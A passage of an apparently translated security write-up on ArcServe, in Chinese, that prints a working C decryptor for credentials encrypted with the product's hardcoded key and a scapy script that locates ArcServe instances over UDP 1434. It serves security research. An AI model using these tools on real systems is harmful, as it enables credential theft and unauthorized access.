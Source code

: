 正如我们所看到的，它使用字符串 Please input a valid password
作为种子来构建稍后在CryptDecrypt中使用的密钥。有了这些知识，构建一个解密器就很简单了：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <Windows.h>#include <stdio.h>  
    int main(int argc, char** argv) {  printf("\\t\\t-={ ArcServe Decryptor by Juan Manuel Fernandez (@TheXC3LL) }=-\\n\\n");  HCRYPTPROV phProv = NULL;  HCRYPTHASH phHash = NULL;  HCRYPTKEY phKey = NULL;  
      BYTE enc[] = { 133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98 }; // Text to decrypt (base64 decode and take everything after 0x80 bytes)  
      BYTE key[] = { 0x50, 0x00, 0x6C, 0x00, 0x65, 0x00, 0x61, 0x00, 0x73, 0x00, 0x65, 0x00, 0x20, 0x00, 0x69, 0x00, 0x6E, 0x00, 0x70, 0x00, 0x75, 0x00, 0x74, 0x00, 0x20, 0x00, 0x61, 0x00, 0x20, 0x00, 0x76, 0x00, 0x61, 0x00, 0x6C, 0x00, 0x69, 0x00, 0x64, 0x00, 0x20, 0x00, 0x70, 0x00, 0x61, 0x00, 0x73, 0x00, 0x73, 0x00, 0x77, 0x00, 0x6F, 0x00, 0x72, 0x00, 0x64, 0x00 };  DWORD pdwDataLen = sizeof(enc);  
      if (!CryptAcquireContextW(&phProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {    printf("[!] CryptAcquireContextW Failed!\\n");    exit(-1);  }  if (!CryptCreateHash(phProv, CALG_MD5, NULL, 0, &phHash)) {    printf("[!] CryptCreateHash Failed!\\n");    exit(-1);  }  if (!CryptHashData(phHash, key, 58, 0)) {    printf("[!] CryptHashData Failed!\\n");    exit(-1);  }  if (!CryptDeriveKey(phProv, CALG_AES_256, phHash, 16777220, &phKey)) {    printf("[!] CryptDeriveKey Failed!\\n");    exit(-1);  }  CryptDecrypt(phKey, NULL, TRUE, 0, &enc, &pdwDataLen);  printf("[+] Decrypted string: %S", enc);}

#  **查找 ArcServe 实例**

默认情况下，ArcServe 使用实例名称ARCSERVE_APP，因此我们可以利用SQL Browser Service向端口 UDP 1434
发送广播数据包并查看是否有主机回复它。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #!/usr/bin/env python3# ArcServeRadar by Juan Manuel Fernandez (@xc3ll@mastodon.social)  
    import sysimport threadingfrom scapy.all import *  
    udp_packet = bytearray.fromhex("0441524353455256455f415050") # ARCSERVE_APP  
    def ping(ip, iface, port):    print("[*] Broadcasting")    sendp(Ether()/IP(src=ip,dst="255.255.255.255")/UDP(dport=1434,sport=port)/Raw(load=udp_packet), verbose=False, iface=iface)  
    def check(pkt):  origin = pkt[IP].src  content = pkt[Raw].load  if content != udp_packet:    data = content[content.find(b"Server"):]    print("\\t[+] " + origin + " => " + data.decode("utf-8"))  
    def monitor(iface, port):  print("[*] Starting to monitor")  sniff(prn=check, filter="port " + str(port), iface=iface)  
    if __name__ == "__main__":    print("\\t\\t-=[ ArcServe Finder - @xc3ll@mastodon.social ]=-\\n\\n")    if len(sys.argv) != 4:        print("[!] Error. Usage: python3 ArcServeRadar.py <interface> <originport> <originip>")        exit(-1)    iface = sys.argv[1]    port = int(sys.argv[2])    ip = sys.argv[3]    x = threading.Thread(target=monitor, args=(iface,port,))    x.start()    ping(ip, iface, port)

或者，如果未更改，可以使用以下默认凭据：

  *   * 
